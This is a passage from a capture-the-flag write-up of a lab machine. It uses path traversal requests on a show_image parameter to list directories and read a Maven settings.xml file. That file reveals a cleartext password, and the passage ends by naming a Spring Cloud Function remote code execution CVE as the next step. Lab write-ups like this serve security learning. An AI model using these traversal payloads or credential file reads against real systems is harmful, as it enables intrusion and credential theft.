 and guess what we got some files.....


![burp_4](https://github.com/Lynk4/HTB-Writeups/assets/44930131/6226b9b9-b113-4f32-87ed-1a6d7573236c)


For the **var** directory.

```
/show_image?img=../../../../../../
```

![burp_var](https://github.com/Lynk4/HTB-Writeups/assets/44930131/8a5ef32a-f2e0-42d5-a230-5bad89490c7a)


let's check the home directory.

```
/show_image?img=../../../../../../home/
```

Found two user's **frank** and **phil**.


![burp_home](https://github.com/Lynk4/HTB-Writeups/assets/44930131/75591ec2-a2e2-4d97-9428-3ca160f1dcbf)


Found something in settings.xml file. In the frank directory.
there's a password for the user phil.


```
/show_image?img=../../../../../../home/frank/.m2/settings.xml
```


Take a note of the password.

  **phil:DocPhillovestoInject123**


![phil_pass](https://github.com/Lynk4/HTB-Writeups/assets/44930131/7a6ead8e-9a22-4e73-a34a-9c3c4c4cb3cf)


perform some additional reconnaissance in the var directory.


```
/show_image?img=../../../../../../var/www/WebApp/HELP.md
```


The website is using **Spring Restful Web Service**.


![recon](https://github.com/Lynk4/HTB-Writeups/assets/44930131/38c25b52-013f-4a98-8d24-4e9e8b635210)


Let's do some recon on the spring restful web service.

guess what found something interesting.....

**CVE-2022-22963** - Spring Cloud Function RCE

